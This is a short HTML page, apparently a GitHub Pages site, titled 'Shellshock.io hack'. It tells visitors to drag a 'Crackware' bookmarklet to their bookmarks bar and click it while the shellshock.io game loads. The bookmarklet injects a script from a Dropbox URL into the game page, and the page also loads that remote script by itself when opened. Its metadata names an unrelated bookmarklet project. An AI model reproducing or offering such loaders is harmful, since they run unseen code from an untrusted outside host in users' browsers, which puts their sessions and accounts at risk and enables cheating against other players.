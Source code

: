 <html lang="en"><head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">

<!-- Begin Jekyll SEO tag v2.3.0 -->
<title>Shellshock.io hack</title>
<meta property="og:title" content="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:locale" content="en_US">
<link rel="canonical" href="https://dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:url" content="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:site_name" content="Shellshockiohack">
<script type="application/ld+json">
{"name":"animatedThumbnailsBookmarklet","description":null,"author":null,"@type":"WebSite","url":"https://worldlanguages.github.io/animatedThumbnailsBookmarklet/","image":null,"publisher":null,"headline":"animatedThumbnailsBookmarklet","dateModified":null,"datePublished":null,"sameAs":null,"mainEntityOfPage":null,"@context":"http://schema.org"}</script>
<!-- End Jekyll SEO tag -->

    <style class="anchorjs"></style><link href="/shellshockhack?v=2bda4bc6dfc0cfbb6a1bdd45071b3149f0485179" rel="stylesheet">
  </head>
  <body>
    <div class="container-lg px-3 my-5 markdown-body">
      

      <h1 id="animatedthumbnailsbookmarklet">Shellshock.io hack</h1><h3 id="drag-and-drop-the-link-below-to-your-bookmarks-bar">Drag and drop the link below to your bookmarks/favorites bar. If you don't see the bar, press Ctrl+Shift+B (Windows) or Cmd+Shift+B (Mac).<a class="anchorjs-link " href="#drag-and-drop-the-link-below-to-your-bookmarks-bar" aria-label="Anchor link for: drag and drop the link below to your bookmarks bar" data-anchorjs-icon="" style="font-style: normal; font-variant: normal; font-weight: normal; font-stretch: normal; font-size: 1em; line-height: 1; font-family: anchorjs-icons; padding-left: 0.375em;"></a></h3>
<h3><a href='javascript:x=document.createElement("script");x.src="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js"; void document.getElementsByTagName("head")[0].appendChild(x);'>Crackware</a></h3><h3>Then click while loading shellshock.io</h3></div>
    <script src="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js"></script>
    <script>anchors.add();</script>
  





</body></html>
